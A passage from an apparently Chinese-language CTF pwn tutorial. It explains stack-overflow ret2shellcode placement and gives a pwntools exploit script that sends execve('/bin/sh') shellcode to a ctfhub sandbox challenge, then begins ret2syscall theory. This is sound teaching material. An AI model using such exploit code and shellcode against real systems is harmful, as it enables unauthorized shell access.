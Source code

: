 这里解释一下为什么shellcode要放在返回地址之后

shellcode空间是24字节，我们的shellcode长度是23，但是因为shellcode本身是有push指令的，如果我们把shellcode放在返回地址的前面，在程序leave的时候会破坏shellcode，所以我们将其放在后面

|   |   |
|---|---|
|1  <br>2  <br>3  <br>4  <br>5  <br>6  <br>7  <br>8  <br>9|```<br>from pwn import *p=remote("challenge-4dc2fe491e709188.sandbox.ctfhub.com",24350)buf_addr = p.recvuntil("]")buf_addr = int(buf_addr[-15:-1], 16) shellcode_addr = buf_addr + 32shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"payload = 'a' * 24 + p64(shellcode_addr) + shellcodep.sendline(payload)p.interactive()<br>```|

## [](https://www.onctf.com/posts/cd763be3.html#ret2syscall "ret2syscall")ret2syscall[](https://www.onctf.com/posts/cd763be3.html#ret2syscall)

### [](https://www.onctf.com/posts/cd763be3.html#%E7%90%86%E8%AE%BA-2 "理论")理论[](https://www.onctf.com/posts/cd763be3.html#%E7%90%86%E8%AE%BA-2)

通过控制程序执行系统调用来获取 shell

系统调用相关知识：

> **Linux 的系统调用通过 int 80h 实现**，用系统调用号来区分入口函数
> 
> **应用程序调用系统调用的过程是：**
> 
> 1、把**系统调用的编号存入 EAX**
> 
> 2、把**函数参数存入其它通用寄存器**
> 
> 3、**触发 0x80 号中断**（int 0x80）

需要 满足的条件：

有int 0x80的地址

eax必须是0xb，ebx必须是/bin/sh的地址，ecx和edx必须都是0

[![](https://www.onctf.com/images/image-20210721093522112.png)](https://www.onctf.com/images/image-20210721093522112.png)

当满足这些条件时才能调用execve这个系统函数

如何满足，就需要pop eax，pop ebb………..如上图

### [](https://www.onctf.com/posts/cd763be3.html#%E4%BE%8B%E9%A2%98-2 "例题")例题[](https://www.onctf.com/posts/cd763be3.html#%E4%BE%8B%E9%A2%98-2)

这里以 bamboofox 中的 ret2syscall 为例

[ctfwiki的下载链接](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2syscall/bamboofox-ret2syscall/rop)

[![](https://www.onctf.com/images/image-20210721100624698.png)](https://www.onctf.com/images/image-20210721100624698.png)
